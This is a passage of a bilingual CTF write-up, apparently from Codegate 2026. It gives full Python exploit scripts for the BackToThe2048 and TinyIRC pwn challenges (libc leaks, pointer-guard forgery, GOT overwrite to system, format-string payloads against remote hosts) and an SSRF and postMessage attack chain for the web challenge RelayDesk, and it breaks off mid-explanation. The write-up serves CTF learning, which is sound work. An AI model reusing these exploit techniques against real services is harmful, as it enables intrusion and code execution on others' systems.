```Python
REMOTE_EXIT_HEAD_OFF = 0x2050A0
```

**3. 远端恢复 pointer guard**

**Remote recovery pointer guard**

和本地一样，读取第 5 个 exit entry：

Same as local, read the 5th exit entry:

```Python
head + 0x10 + 5 * 0x20 + 8
```

然后通过：

Then through: 

```Python
pie_base = dso5 - 0x12008
guard = ror64(enc5, 17) ^ (pie_base + 0xD7F0)
```

恢复当前进程的 pointer guard。

Restore the pointer guard of the current process.

**4. 远端`system` 和 `"/bin/sh"`**

**Remote `system` and `"/bin/sh"`**

我通过直接读取远端 ELF/program header 和 dynamic table，对应出远端 glibc 的真实符号位置，最终确认：

By directly reading the remote ELF/program header and dynamic table, I mapped out the real symbol locations of the remote glibc, and finally confirmed: 

- `REMOTE_SYSTEM_OFF = 0x58750`
- `REMOTE_BINSH_OFF = 0x1CB42F`

因此最终改写内容是：

Therefore, the final rewritten content is:

```Python
system = libc_base + 0x58750
binsh = libc_base + 0x1cb42f
enc_system = rol64(system ^ guard, 17)
payload = p64(enc_system) + p64(binsh) + p64(dso5)
```

**5. 触发执行**

**Trigger Execution**

完成第 6 个 exit entry 改写后，向程序发送：

After completing the rewrite of the 6th exit entry, send the following to the program: 

```Plain
qcat /home/user2048/flag
exit
```

程序在退出时会转而执行：

When the program exits, it will instead execute: 

```C
system("/bin/sh")
```

从而得到命令执行并读出 flag。

Thus, the command is executed and the flag is read. 

#### **Exp**

```Python
python3 solve_poc.py --mode exploit-remote --remote 54.181.1.162:36202
from __future__ import annotations

import argparse
import re
import struct
import subprocess
import time
from typing import Optional

from pwn import context, p64, process, remote, u64

context.log_level = "error"

ARROW_DOWN = b"\x1b[B"
ARROW_UP = b"\x1b[A"
ANSI_RE = re.compile(rb"\x1b\[[0-9;?]*[A-Za-z]")

LOCAL_SYSTEM_OFF = 0x53B00
LOCAL_BINSH_OFF = 0x1B0EBC
LOCAL_LIBC_PTR_OFF_FROM_CMD = 0x330
LOCAL_LIBC_PTR_TO_BASE = 0x209B00
LOCAL_EXIT_HEAD_OFF = 0x20AFE0

REMOTE_BIG_NAME = b"C" * 0x500
REMOTE_LIBC_PTR_OFF = 0x1D8
REMOTE_LIBC_ANCHOR_OFF = 0x202030
REMOTE_EXIT_REGION_OFF = 0x202000
REMOTE_EXIT_HEAD_OFF = 0x2050A0
REMOTE_SYSTEM_OFF = 0x58750
REMOTE_BINSH_OFF = 0x1CB42F

def looks_ptr(value: int) -> bool:
    top = value >> 40
    return 0x50 <= top <= 0x7F

def looks_heap_ptr(value: int) -> bool:
    top = value >> 40
    return 0x55 <= top <= 0x6F

def rol64(value: int, shift: int) -> int:
    return ((value << shift) | (value >> (64 - shift))) & ((1 << 64) - 1)

def ror64(value: int, shift: int) -> int:
    return ((value >> shift) | (value << (64 - shift))) & ((1 << 64) - 1)

def tune_remote_args(args: argparse.Namespace) -> None:
    if not args.remote:
        return
    args.delay = max(args.delay, 0.14)
    args.recv_timeout = max(args.recv_timeout, 0.04)
    args.arrow_delay = max(args.arrow_delay, 0.06)
    args.input_delay = max(args.input_delay, 0.14)
    args.slow_input_delay = max(args.slow_input_delay, 1.5)
    args.menu_delay = max(args.menu_delay, 0.7)
    args.tag_open_delay = max(args.tag_open_delay, 1.5)
    args.read_delay = max(args.read_delay, 4.0)

class Session:
    def __init__(self, args: argparse.Namespace):
        self.args = args
        self.io = self._start_io()

    def _start_io(self):
        if self.args.remote:
            host, port = self.args.remote.split(":")
            return remote(host, int(port))
        return process(
            [self.args.binary],
            stdin=subprocess.PIPE,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
        )

    def close(self) -> None:
        try:
            self.io.close()
        except Exception:
            pass

    def drain(self, delay: Optional[float] = None) -> bytes:
        if delay is None:
            delay = self.args.delay
        time.sleep(delay)
        data = b""
        while True:
            try:
                chunk = self.io.recv(timeout=self.args.recv_timeout)
            except EOFError:
                break
            if not chunk:
                break
            data += chunk
        return data

    def send(self, data: bytes, delay: Optional[float] = None) -> bytes:
        self.io.send(data)
        return self.drain(delay)

    def clean(self, data: bytes) -> str:
        return ANSI_RE.sub(b"", data).decode("latin1", errors="replace")

    def strip(self, data: bytes) -> bytes:
        return ANSI_RE.sub(b"", data)

    def down(self, count: int = 1) -> None:
        for _ in range(count):
            self.send(ARROW_DOWN, self.args.arrow_delay)

    def up(self, count: int = 1) -> None:
        for _ in range(count):
            self.send(ARROW_UP, self.args.arrow_delay)

    def new_record(self, name: bytes, slow: bool = False) -> None:
        self.send(b"1", self.args.menu_delay)
        self.send(name + b"\n", self.args.slow_input_delay if slow else self.args.menu_delay)
        self.send(b"q", self.args.menu_delay)
        self.send(b"m", self.args.menu_delay)

    def open_history_default(self) -> None:
        self.send(b"3", self.args.menu_delay)
        self.send(b"\n", self.args.menu_delay)

    def to_main(self) -> None:
        self.send(b"b", self.args.menu_delay)
        self.send(b"b", self.args.menu_delay)
        self.send(b"b", self.args.menu_delay)

    def add_tag(self, text: bytes, slow: bool = False) -> None:
        self.send(b"n", self.args.input_delay)
        self.send(text + b"\n", self.args.slow_input_delay if slow else self.args.input_delay)

    def enter_tag_editor_for_record(self, record_index: int, open_delay: Optional[float] = None) -> bytes:
        self.open_history_default()
        self.up(30)
        self.down(record_index)
        return self.send(b"t", open_delay if open_delay is not None else self.args.tag_open_delay)

    def delete_record(self, record_index: int) -> None:
        self.open_history_default()
        self.up(30)
        self.down(record_index)
        self.send(b"d", self.args.tag_open_delay)
        self.to_main()

    def extract_tag_row1(self, data: bytes, n: int) -> bytes:
        data = self.strip(data)
        start = data.rfind(b"Tag Name")
        if start == -1:
            start = data.rfind(b"Record:")
        chunk = data[start:] if start != -1 else data
        idx = chunk.find(b"1   ")
        if idx == -1:
            raise RuntimeError("tag row1 not found")
        return chunk[idx + 4 : idx + 4 + n]

def setup_ab(session: Session) -> bytes:
    session.new_record(b"AAAA")
    session.enter_tag_editor_for_record(0)
    for tag in [b"t1", b"t2", b"t3", b"t4"]:
        session.add_tag(tag)
    session.down(3)
    session.send(b"e", session.args.input_delay)
    session.add_tag(b"t5")
    session.to_main()

    session.new_record(b"BBBB")
    session.enter_tag_editor_for_record(1)
    session.add_tag(b"cat /home/user2048/flag")
    for i in range(2, 11):
        session.add_tag(f"t{i}".encode())
    session.to_main()

    session.enter_tag_editor_for_record(0)
    session.send(b"\n", session.args.input_delay)
    session.send(b"\n", session.args.menu_delay)
    session.send(b"b", session.args.menu_delay)
    session.down(1)
    data = session.send(b"t", session.args.tag_open_delay)
    leak = session.extract_tag_row1(data, 24)
    session.to_main()
    return leak

def extract_cmd_ptr(leak: bytes) -> int:
    q0 = u64(leak[:8])
    if looks_heap_ptr(q0):
        return q0
    q2 = u64(leak[16:23] + b"\x00")
    if looks_heap_ptr(q2):
        return q2
    raise RuntimeError(f"failed to recover command buffer pointer from {leak.hex()}")

def make_pair(session: Session, pair_no: int) -> int:
    e_idx = 2 + (pair_no - 1) * 2
    f_idx = e_idx + 1

    session.new_record(f"E{pair_no}".encode())
    session.enter_tag_editor_for_record(e_idx)
    for tag in [b"e1", b"e2", b"e3", b"e4"]:
        session.add_tag(tag)
    session.down(3)
    session.send(b"e", session.args.input_delay)
    session.add_tag(b"e5")
    session.to_main()

    session.new_record(f"F{pair_no}".encode())
    session.enter_tag_editor_for_record(f_idx)
    session.add_tag(b"zzzz")
    for i in range(2, 11):
        session.add_tag(f"f{i}".encode())
    session.to_main()

    return e_idx

def arm_pair(session: Session, e_idx: int, target: int, size: int, cap: int = 0x20) -> None:
    session.enter_tag_editor_for_record(e_idx)
    session.send(b"\n", session.args.input_delay)
    payload = p64(target) + p64(size) + p64(cap)
    session.send(payload + b"\n", session.args.menu_delay)
    session.send(b"b", session.args.menu_delay)

def arb_read(session: Session, pair_no: int, target: int, size: int, delay: Optional[float] = None) -> bytes:
    e_idx = make_pair(session, pair_no)
    arm_pair(session, e_idx, target, size)
    session.down(1)
    data = session.send(b"t", delay if delay is not None else session.args.read_delay)
    leak = session.extract_tag_row1(data, size)
    session.to_main()
    return leak

def arb_write(session: Session, pair_no: int, target: int, payload: bytes) -> None:
    e_idx = make_pair(session, pair_no)
    arm_pair(session, e_idx, target, len(payload))
    session.down(1)
    session.send(b"t", session.args.tag_open_delay)
    session.send(b"e", session.args.input_delay)
    session.send(b"\n", session.args.input_delay)
    session.send(payload + b"\n", session.args.menu_delay)

def crash_poc(session: Session) -> None:
    session.new_record(b"test")
    session.open_history_default()
    session.send(b"t", session.args.tag_open_delay)
    session.add_tag(b"AAAA")
    session.send(b"e", session.args.input_delay)
    session.add_tag(b"BBBB")
    session.send(b"\n", session.args.input_delay)
    session.io.send(b"CCCC\n")

def stage2_underflow(session: Session) -> bytes:
    session.new_record(b"AAAA")
    session.open_history_default()
    session.send(b"t", session.args.tag_open_delay)
    for tag in [b"t1", b"t2", b"t3", b"t4"]:
        session.add_tag(tag)
    session.down(3)
    session.send(b"e", session.args.input_delay)
    session.add_tag(b"t5")
    session.to_main()

    session.new_record(b"BBBB")
    session.open_history_default()
    session.down(1)
    session.send(b"t", session.args.tag_open_delay)
    session.add_tag(b"zzzz")
    session.to_main()

    session.open_history_default()
    session.send(b"t", session.args.tag_open_delay)
    session.send(b"\n", session.args.input_delay)
    session.send(b"\n", session.args.input_delay)

    session.send(b"b", session.args.menu_delay)
    session.down(1)
    session.send(b"t", session.args.tag_open_delay)
    session.down(7)
    session.send(b"e", session.args.input_delay)
    session.send(b"\n", session.args.input_delay)
    session.send(b"\n", session.args.input_delay)
    session.send(b"b", session.args.menu_delay)
    session.send(b"b", session.args.menu_delay)
    return session.send(b"t", session.args.tag_open_delay)

def solve_local_exit(session: Session) -> None:
    leak = setup_ab(session)
    cmd_ptr = extract_cmd_ptr(leak)
    libc_ptr = u64(arb_read(session, 1, cmd_ptr + LOCAL_LIBC_PTR_OFF_FROM_CMD, 8))
    libc_base = libc_ptr - LOCAL_LIBC_PTR_TO_BASE
    head = libc_base + LOCAL_EXIT_HEAD_OFF

    entry5 = arb_read(session, 2, head + 0x10 + 5 * 0x20 + 8, 24)
    enc5, arg5, dso5 = struct.unpack("<QQQ", entry5)
    pie_base = arg5 - 0x12020
    guard = ror64(enc5, 17) ^ (pie_base + 0xD7F0)

    system = libc_base + LOCAL_SYSTEM_OFF
    binsh = libc_base + LOCAL_BINSH_OFF
    enc_system = rol64(system ^ guard, 17)
    payload = p64(enc_system) + p64(binsh) + p64(dso5)

    if b"\n" in payload:
        raise RuntimeError("final payload contains a newline byte")

    arb_write(session, 3, head + 0x10 + 6 * 0x20 + 8, payload)
    session.to_main()
    session.io.send(b"qcat '/mnt/c/Users/miaoai/Desktop/codegate/for_user (15)/deploy/flag'\nexit\n")
    output = session.drain(1.0) + session.drain(1.0)
    print(output.decode("latin1", errors="replace"))

def leak_remote_libc_base(session: Session, cmd_ptr: int) -> int:
    session.new_record(REMOTE_BIG_NAME, slow=True)
    session.delete_record(2)

    leak = arb_read(session, 1, cmd_ptr - 0x800, 0x400, delay=max(session.args.read_delay, 6.0))
    anchor = u64(leak[REMOTE_LIBC_PTR_OFF : REMOTE_LIBC_PTR_OFF + 8])
    return anchor - REMOTE_LIBC_ANCHOR_OFF

def solve_remote_exit(session: Session) -> None:
    leak = setup_ab(session)
    cmd_ptr = extract_cmd_ptr(leak)
    libc_base = leak_remote_libc_base(session, cmd_ptr)
    head = libc_base + REMOTE_EXIT_HEAD_OFF

    entry5 = arb_read(session, 2, head + 0x10 + 5 * 0x20 + 8, 24, delay=max(session.args.read_delay, 6.0))
    enc5, _, dso5 = struct.unpack("<QQQ", entry5)
    pie_base = dso5 - 0x12008
    guard = ror64(enc5, 17) ^ (pie_base + 0xD7F0)

    system = libc_base + REMOTE_SYSTEM_OFF
    binsh = libc_base + REMOTE_BINSH_OFF
    enc_system = rol64(system ^ guard, 17)
    payload = p64(enc_system) + p64(binsh) + p64(dso5)

    if b"\n" in payload:
        raise RuntimeError("remote payload contains a newline byte")

    arb_write(session, 3, head + 0x10 + 6 * 0x20 + 8, payload)
    session.to_main()
    session.io.send(b"qcat /home/user2048/flag\nexit\n")
    output = session.drain(2.5) + session.drain(2.5) + session.drain(2.5)
    print(output.decode("latin1", errors="replace"))

def probe_remote_exit_region(session: Session) -> None:
    leak = setup_ab(session)
    cmd_ptr = extract_cmd_ptr(leak)
    print(f"cmd_ptr = {cmd_ptr:#x}")

    libc_base = leak_remote_libc_base(session, cmd_ptr)
    print(f"libc_base = {libc_base:#x}")

    region = arb_read(session, 2, libc_base + REMOTE_EXIT_REGION_OFF, 0x8000, delay=max(session.args.read_delay, 6.0))
    hits: list[tuple[int, int]] = []
    for off in range(0, len(region) - 7, 8):
        qword = u64(region[off : off + 8])
        if looks_heap_ptr(qword):
            hits.append((off, qword))

    print("binary-looking pointers near guessed .data:")
    for off, value in hits:
        print(f"  +0x{off:x}: {value:#x}")

    dso_ptrs = {}
    for off, value in hits:
        if value & 0xFFF == 0x008:
            dso_ptrs.setdefault(value, []).append(off)

    for dso, offsets in dso_ptrs.items():
        if len(offsets) >= 2:
            pie_base = dso - 0x12008
            print(f"candidate repeated dso={dso:#x} -> pie_base={pie_base:#x}")
            for off in offsets:
                start = off - 0x10
                if start >= 0 and start + 0x30 <= len(region):
                    chunk = region[start : start + 0x30]
                    print(f"  entry-like chunk @ +0x{start:x}: {chunk.hex()}")
            head = REMOTE_EXIT_REGION_OFF + min(offsets) - (0x10 + 0x10 + 5 * 0x20 + 8)
            print(f"  candidate exit_head_off = 0x{head:x}")

def main() -> None:
    parser = argparse.ArgumentParser(description="BackToThe2048 exploit / probe toolkit")
    parser.add_argument(
        "--binary",
        default="/mnt/c/Users/miaoai/Desktop/codegate/for_user (15)/deploy/prob",
        help="local ELF path",
    )
    parser.add_argument("--remote", help="host:port")
    parser.add_argument(
        "--mode",
        choices=[
            "crash",
            "stage2",
            "stage2-dump",
            "exploit-local",
            "exploit-remote",
            "probe-remote",
        ],
        default="crash",
    )
    parser.add_argument("--attempts", type=int, default=3, help="retry count for remote modes")
    parser.add_argument("--delay", type=float, default=0.08, help="default drain delay")
    parser.add_argument("--recv-timeout", type=float, default=0.02, help="recv polling timeout")
    parser.add_argument("--arrow-delay", type=float, default=0.03, help="arrow-key delay")
    parser.add_argument("--input-delay", type=float, default=0.08, help="normal text-input delay")
    parser.add_argument("--slow-input-delay", type=float, default=1.2, help="slow path input delay")
    parser.add_argument("--menu-delay", type=float, default=0.35, help="menu transition delay")
    parser.add_argument("--tag-open-delay", type=float, default=0.8, help="tag editor open delay")
    parser.add_argument("--read-delay", type=float, default=2.0, help="arbitrary-read screen delay")
    args = parser.parse_args()
    tune_remote_args(args)

    max_attempts = args.attempts if args.remote and args.mode in {"exploit-remote", "probe-remote"} else 1
    last_error: Optional[Exception] = None

    for attempt in range(1, max_attempts + 1):
        session = Session(args)
        try:
            session.drain(1.0 if args.remote else 0.2)
            if args.mode == "crash":
                crash_poc(session)
                session.io.interactive()
            elif args.mode == "stage2":
                stage2_underflow(session)
                session.io.interactive()
            elif args.mode == "stage2-dump":
                print(session.clean(stage2_underflow(session)))
            elif args.mode == "exploit-local":
                solve_local_exit(session)
            elif args.mode == "exploit-remote":
                if not args.remote:
                    raise RuntimeError("exploit-remote requires --remote host:port")
                solve_remote_exit(session)
            else:
                if not args.remote:
                    raise RuntimeError("probe-remote requires --remote host:port")
                probe_remote_exit_region(session)
            return
        except Exception as exc:
            last_error = exc
            if attempt == max_attempts:
                raise
            print(f"[attempt {attempt}/{max_attempts}] {exc}")
        finally:
            session.close()

    if last_error is not None:
        raise last_error

if __name__ == "__main__":
    main()
```

### TinyIRC

#### **Information Gathering**

- The binary is **amd64**, with **NX**, **Canary** enabled, **Partial RELRO**, and **No PIE**.
- The Docker base image is `ubuntu:24.04`, and the remote libc version is **2.39**.
- The `run.sh` launcher prints:

```bash
tinyIRC server listening on port XXXXX
```

- The actual IRC service runs on this **random port**.
- Important detail: the server’s **stdout/stderr are forwarded through the launcher connection**, so both leaks and the final `cat flag` output must be read from:

```bash
nc 15.165.70.236 20998
```

#### **Vulnerability**

The client structure has size `0x1070`. The key layout is:

```c
struct client {
    int fd;              // +0x00
    char active;         // +0x04
    ...
    char recvbuf[0x1000];// +0x67
    size_t recvbuf_len;  // +0x1068
};
```

The `QUIT` command triggers `disconnect_client()`, which does:

```c
memset(client, 0, 0x1070);
```

However, the caller `handle_client_io()` **continues execution** and processes leftover data:

```c
leftover = c->recvbuf + c->recvbuf_len - cur;
memmove(c->recvbuf, cur, leftover);
c->recvbuf_len = leftover;
```

Since `recvbuf_len` has been reset to `0`, `leftover` becomes a **large negative value cast to** **`size_t`**.

On **Ubuntu 24.04 / libc 2.39**, this behavior can reliably turn `recvbuf_len` into a **negative value**, enabling exploitation.

#### **Exploit Strategy**

##### **1. Use helper slot to turn slot0 into backward write**

We use two connections:

- `slot0`: main attack connection
- `slot1`: helper

Steps:

1. Let `slot1` send exactly `0x6f` bytes:

```c
QUIT :AAAA....AAAA\n
```

→ This sets:

```c
slot1.recvbuf_len = -0x6f
```

1. Reconnect another helper into the same slot, send `0x6f` bytes again.

This causes writes **before** **`slot1.recvbuf`**, effectively corrupting:

```c
[slot0.recvbuf_len][slot1 header]...
```

1. Overwrite `slot0.recvbuf_len = -0xc7`

Now the next `recv()` on `slot0` writes from:

```c
slot0.recvbuf - 0xc7
```

→ This allows overwriting:

```c
strtok@got ... slot0 header ... memory before recvbuf
```

##### **2. Stage 1: overwrite** **`strtok@got → printf`**, leak libc, and restore state

The first crafted payload achieves:

- Overwrite `strtok@got = printf@plt`
- Use `printf("%29$s")` to leak `recv@got`
- Compute:
  - libc base
  - `system` address
- Restore:
  - `slot1.recvbuf_len = -0x6f`
  - `strtok@got = strtok@plt + 6`

##### Prevent crash

We must ensure `printf` returns a valid pointer.

 We use:

```c
0x404422  → address of " "
```

So we pad:

```c
%1$4211xxx c
```

→ makes return value equal to `0x404422`, avoiding crash.

##### **3. Helper triggers again**

Since we restored:

```c
slot1.recvbuf_len = -0x6f
```

We **don’t need to reconnect**.

Just send another `0x6f` bytes → reapply:

```c
slot0.recvbuf_len = -0xc7
```

##### **4. Stage 2: overwrite** **`strtok@got → system`**

Now we know `system`.

Second payload:

- Set:

```c
strtok@got = system
```

- Keep `slot0` structure intact
- Put command into `recvbuf`:

```bash
cat /home/ctf/flag
```

When the program executes:

```c
strtok(line, " ");
```

It becomes:

```c
system("cat /home/ctf/flag");
```

##### **5. Get flag**

Because the child process inherits launcher’s stdout/stderr, the flag is printed back through:

```bash
nc 15.165.70.236 20998
```

**Exploit Script**

```Python
#!/usr/bin/env python3
import re
import socket
import struct
import threading
import time

from pwn import ELF, context, p64, u64

context.log_level = "error"

HOST = "15.165.70.236"
LAUNCHER_PORT = 20998
FLAG_CMD = b"cat /home/ctf/flag\n"

BIN = ELF("./deploy/irc_server")
LIBC = ELF("./ubuntu24-libc/rootfs/usr/lib/x86_64-linux-gnu/libc.so.6")

TARGET_RET = 0x404422
PRINTF_PLT = 0x4012C0
STRTOK_GOT = BIN.got["strtok"]
RECV_GOT = BIN.got["recv"]
CLIENTS_BASE = 0x406120
CLIENT_SIZE = 0x1070
SLOT1_RECVBUF_LEN = CLIENTS_BASE + CLIENT_SIZE + 0x1068

class SocketReader(threading.Thread):
    def __init__(self, sock):
        super().__init__(daemon=True)
        self.sock = sock
        self.buf = bytearray()
        self.lock = threading.Lock()
        self.stop = False
        self.closed = False

    def run(self):
        while not self.stop:
            try:
                chunk = self.sock.recv(4096)
                if not chunk:
                    self.closed = True
                    return
                with self.lock:
                    self.buf += chunk
            except socket.timeout:
                continue
            except OSError:
                self.closed = True
                return

    def data(self):
        with self.lock:
            return bytes(self.buf)

def wait_for(pred, timeout=10.0, step=0.02):
    end = time.time() + timeout
    while time.time() < end:
        if pred():
            return True
        time.sleep(step)
    return False

def connect_tcp(host, port, retries=30, delay=0.1):
    last_exc = None
    for _ in range(retries):
        try:
            s = socket.create_connection((host, port), timeout=5)
            s.settimeout(1)
            return s
        except OSError as exc:
            last_exc = exc
            time.sleep(delay)
    raise last_exc

def initial_restage(host, service_port):
    helper = connect_tcp(host, service_port)
    helper.sendall(b"QUIT :" + b"A" * 0x68 + b"\n")
    time.sleep(0.1)
    helper.close()
    time.sleep(0.1)

    helper = connect_tcp(host, service_port)
    payload = (
        p64((1 << 64) - 0xC7)
        + struct.pack("<I", 5)
        + b"\x01\x00\x00"
        + b"\x00" * (0x6F - 15)
    )
    helper.sendall(payload)
    time.sleep(0.1)
    return helper

def build_stage1():
    qwords = [
        PRINTF_PLT,
        RECV_GOT,
        STRTOK_GOT,
        STRTOK_GOT + 1,
        STRTOK_GOT + 2,
        SLOT1_RECVBUF_LEN,
        SLOT1_RECVBUF_LEN + 2,
        SLOT1_RECVBUF_LEN + 4,
        SLOT1_RECVBUF_LEN + 6,
    ]

    pre = b"".join(p64(x) for x in qwords)
    pre += b"\x00" * (0x60 - len(pre))
    pre += struct.pack("<I", 4) + b"\x01\x00\x00"
    pre += b"\x00" * (0xC7 - len(pre))

    count = 8
    fmt = b"|%29$s|"

    # slot1->recvbuf_len = -0x6f
    for want, pos in [(0xFF91, 33), (0xFFFF, 34), (0xFFFF, 35), (0xFFFF, 36)]:
        delta = (want - count) % 0x10000
        if delta:
            fmt += f"%1${delta}c".encode()
            count += delta
        fmt += f"%{pos}$hn".encode()

    # restore strtok@got = strtok@plt+6 = 0x40138a
    for want, pos in [(0x8A, 30), (0x13, 31), (0x40, 32)]:
        delta = (want - count) % 0x100
        if delta:
            fmt += f"%1${delta}c".encode()
            count += delta
        fmt += f"%{pos}$hhn".encode()

    fmt += f"%1${TARGET_RET - count}c".encode() + b"\n"
    return pre + fmt

def build_stage2(system_addr):
    pre = p64(system_addr)
    pre += b"\x00" * (0x60 - len(pre))
    pre += struct.pack("<I", 4) + b"\x01\x00\x00"
    pre += b"\x00" * (0xC7 - len(pre))
    return pre + FLAG_CMD

def main():
    launcher = connect_tcp(HOST, LAUNCHER_PORT)
    reader = SocketReader(launcher)
    reader.start()

    if not wait_for(lambda: b"port " in reader.data(), timeout=5):
        raise RuntimeError("launcher banner timeout")

    banner = reader.data()
    m = re.search(rb"port (\d+)", banner)
    if not m:
        raise RuntimeError(f"bad banner: {banner!r}")
    service_port = int(m.group(1))
    print(f"[+] service port: {service_port}")

    slot0 = connect_tcp(HOST, service_port)
    helper = initial_restage(HOST, service_port)

    before = len(reader.data())
    slot0.sendall(build_stage1())

    if not wait_for(lambda: re.search(rb"\n\|(.*?)\|", reader.data(), re.S), timeout=20):
        raise RuntimeError("stage1 leak timeout")

    leak_match = re.search(rb"\n\|(.*?)\|", reader.data(), re.S)
    leak = leak_match.group(1)
    recv_addr = u64(leak[:6].ljust(8, b"\x00"))
    libc_base = recv_addr - LIBC.symbols["recv"]
    system_addr = libc_base + LIBC.symbols["system"]
    print(f"[+] recv@libc = {recv_addr:#x}")
    print(f"[+] libc base  = {libc_base:#x}")
    print(f"[+] system     = {system_addr:#x}")

    if not wait_for(lambda: len(reader.data()) >= before + TARGET_RET - 0x1000, timeout=40):
        raise RuntimeError("stage1 drain timeout")

    helper_shot = (
        p64((1 << 64) - 0xC7)
        + struct.pack("<I", 5)
        + b"\x01\x00\x00"
        + b"\x00" * (0x6F - 15)
    )
    helper.sendall(helper_shot)
    time.sleep(0.3)

    slot0.sendall(build_stage2(system_addr))

    if not wait_for(lambda: b"codegate2026{" in reader.data() or reader.closed, timeout=10):
        raise RuntimeError("flag timeout")

    final = reader.data()
    flag_match = re.search(rb"codegate2026\{[^\n\r}]*\}", final)
    if not flag_match:
        raise RuntimeError("flag not found")
    print(flag_match.group(0).decode())

    reader.stop = True
    for sock in (slot0, helper, launcher):
        try:
            sock.close()
        except OSError:
            pass

if __name__ == "__main__":
    main()
```

**Run**

```python
cd /root/crypto/TinyIRC
python3 exp.py
```

**Flag**

The flag is **instance-dependent**.

Example output:

```bash
codegate2026{b1c8c6ca53695c09d1d92b655e4108063a2f96e25454e09f238dcb2924dd7e50e4ea7db9a415561aa9d0132ce02a03492c1f9befc0832ccc4365d9becccbdb2ac9cb063267f1b1da}
```

## Web

### **RelayDesk**

1. 用公开接口构造两张工单，让第二张进入 admin inbox。

   Use the public interface to create two tickets, and let the second one enter the admin inbox. 

2. 让 admin-bot 打开邮件时，隐藏加载我们控制的 `reviewLink`。

   When having admin-bot open the email, hide the `reviewLink` that we control.

3. 让恶意页面向 renderer 发送 `relaydesk:resume-ready`。

   Have malicious pages send `relaydesk:resume-ready` to the renderer.

4. 触发 `/mail/open/{message}`，让服务端把 `wid` 和 `rv` 拼到攻击者 URL 上。

   Trigger `/mail/open/{message}`, causing the server to append `wid` and `rv` to the attacker's URL. 

5. 用 `/mail/queue/resume/{wid}?rv=...&q=....` 的 4-gram oracle 还原真实 workspace context 中的 flag。

   Restore the flag in the real workspace context using the 4-gram oracle of `/mail/queue/resume/{wid}?rv=...&q=....`.

#### **Root Cause**

关键点有两个。

There are two key points. 

第一，`NormalizeReviewLink()` 存在 host confusion，可以通过：

First,`NormalizeReviewLink()` has host confusion, which can be addressed by:

```Plain
http://brief.relaydesk.local%E3%80%82[::ffff:a7ac:4eb6]:29664/notes/x
```

绕过校验并把真实请求打到攻击者控制的 `IP:port`。

Bypass the verification and send the real request to the ` IP:port ` controlled by the attacker. 

第二，renderer 在 `cmd/renderer/main.go` 里会隐藏创建一个 `reviewFrame`。只要这个 frame 向父页面发出：

Second, the renderer will secretly create a `reviewFrame` in `cmd/renderer/main.go`. As long as this frame sends a message to the parent page:

```JavaScript
window.parent.postMessage({ type: "relaydesk:resume-ready" }, "*");
```

父页面就会去请求：

The parent page will then make a request: 

```url
/mail/open/{message}?sig=...
```

而 `/mail/open` 会把：

and `/mail/open` will:

- `wid=<resume_ref>`
- `rv=<visit_token>`

追加到原始 `reviewLink` 上，再跳转到该地址。

Append to the original ` reviewLink `, then jump to that address. 

因此我们只要控制 `reviewLink` 的落点，就能直接拿到 `wid` 和 `rv`。

Therefore, as long as we control the landing point of `reviewLink`, we can directly obtain `wid` and `rv`.

#### **Triggering Admin Mail**

第一张工单的作用是把线程初始化到 worker 认可的 handoff 路径。

The first ticket serves to initialize the thread to the handoff path approved by the worker. 

需要满足的条件是：

The conditions to be met are: 

- queue 对应 `handoff`

  queue` corresponds to handoff`

- locale 对应 `digest`

  locale corresponds to `digest`

- tier 对应 `managed`

  tier corresponds to `managed`

- bridge mailbox 是 `case-notes@relaydesk.local`

这些状态可由：

These states can be represented by: 

```url
POST /api/v1/support/profile/sync
POST /api/v1/support/tickets
```

组合完成。

Combination completed.

第二张工单放入 continuation card，正文形态如下：

The second ticket is placed in the continuation card, with the body in the following form: 

```HTML
<section data-layout="summary">
  <a
    class="summary-link"
    data-mode="inline"
    data-tags="summary,activity,notes"
    data-thread-id="relaydesk-op-c-0134"
    href="http://brief.relaydesk.local%E3%80%82[::ffff:a7ac:4eb6]:29664/notes/x"
  >open</a>
</section>
```

这样 worker 会把这封邮件同时投递给 admin。

In this way, the worker will simultaneously forward this email to the admin. 

#### **Important Pitfall**

这里最坑的地方不是 SSRF 本身，而是 origin 规范化。

The most problematic aspect here is not SSRF itself, but origin normalization. 

如果 payload 写成：

If the payload is written as: 

```Plain
http://brief.relaydesk.local%E3%80%82[::ffff:167.172.78.182]:29664/notes/x
```

第一跳通常能到，但第二跳拿不到。

The first hop usually works, but the second hop fails. 

原因是浏览器会把 IPv4-mapped IPv6 的 origin 规范化成十六进制：

The reason is that browsers normalize the origin of IPv4-mapped IPv6 to hexadecimal: 

```Plain
http://[::ffff:a7ac:4eb6]:29664
```

renderer 里校验的是 `event.origin === portal_origin`。如果 `portal_origin` 是点分十进制形式，比较会失败，`resume-ready` 消息就被丢掉。

What is verified in the renderer is `event.origin === portal_origin`. If `portal_origin` is in dotted-decimal notation, the comparison will fail, and the `resume-ready` message will be discarded.

所以最终必须直接使用十六进制 IPv6 literal：

So ultimately, the hexadecimal IPv6 literal must be used directly: 

```Plain
http://brief.relaydesk.local%E3%80%82[::ffff:a7ac:4eb6]:29664/notes/x
```

#### **Getting`wid` / `rv`**

最终使用一个真正按端口转发的公网 TCP 隧道，把本地页面暴露为外部可访问的 `IP:port`。

Finally, use a real public TCP tunnel that forwards by port to expose the local page as externally accessible `IP:port`.

恶意页面需要重复发送 `resume-ready`，避免 headless Chromium 的时序问题。最小代码如下：

Malicious pages need to repeatedly send `resume-ready` to avoid timing issues with headless Chromium. The minimal code is as follows:

```HTML
<!doctype html>
<html>
<body>
<script>
const payload = { type: "relaydesk:resume-ready" };
function notify() {
  try {
    window.parent.postMessage(payload, "*");
  } catch (_) {}
}
notify();
window.addEventListener("DOMContentLoaded", notify, { once: true });
window.addEventListener("load", notify, { once: true });
let count = 0;
const timer = setInterval(() => {
  notify();
  count += 1;
  if (count >= 40) clearInterval(timer);
}, 250);
</script>
</body>
</html>
```

成功后日志会出现：

After success, the log will show: 

```url
/notes/x
/notes/x?rv=357049d534e4a662c84ecae9&wid=042c05491d036377
```

##### **Flag Oracle**

`internal/workspace/archive.go` 会把 workspace context 拆成 4 字符滑动窗口。

`internal/workspace/archive.go` will split the workspace context into 4-character sliding windows.

`/mail/queue/resume/{wid}?rv=...&q=....` 会根据 `q` 是否命中 4-gram，返回不同文案：

`/mail/queue/resume/{wid}?rv=...&q=....` will return different copy based on whether `q` hits a 4-gram or not:

- 命中：`A matching workspace fragment can be promoted from archived context.`
- 未命中：`No archived context fragment matched the current workspace filter.`

更关键的是：

More critically:

- `resume` 页面不会消费 `rv`

  `resume` page will not consume `rv`

- 真正消费 token 的是 `/mail/queue/assets/...`

  The actual token consumer is `/mail/queue/assets/...`

